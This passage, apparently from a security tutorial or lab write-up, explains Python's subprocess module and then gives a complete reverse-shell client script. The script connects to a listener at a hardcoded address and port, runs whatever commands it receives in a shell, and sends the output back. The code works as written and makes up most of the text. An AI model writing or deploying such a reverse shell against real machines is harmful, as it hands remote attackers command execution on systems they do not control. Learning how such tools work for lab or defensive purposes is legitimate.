 The subprocess module allows to run other programs and commands within python code.

* `subprocess.Popen()` is used to start a new process.
* `command`: This is the command received from the server.
* `shell=True`: Runs the command in a shell, allowing execution of shell-specific commands like `ls`, `dir`, `cd`, etc.
* `stdout=subprocess.PIPE`: Captures the command's standard output.
* `stderr=subprocess.PIPE`: Captures any errors from the command.

#### Complete client script

```python
import socket
import subprocess

HOST = "10.10.14.168"
PORT = 8080

def main():
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as client:
        client.connect((HOST, PORT))
        print(f'[*] Connected to {HOST}:{PORT}')
    
        while True:
            command = client.recv(1024).decode('utf-8')  # Receive command from server
            if not command:
                break

            if command.lower() == 'exit':  # Close connection if 'exit' command is received
                break
            
            try:
                result = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
                output, error = result.communicate()
                output = output.decode('utf-8') + error.decode('utf-8')
            except Exception as e:
                output = str(e)

            client.send(output.encode('utf-8'))  # Send output back to server

if __name__ == "__main__":
    main()
```
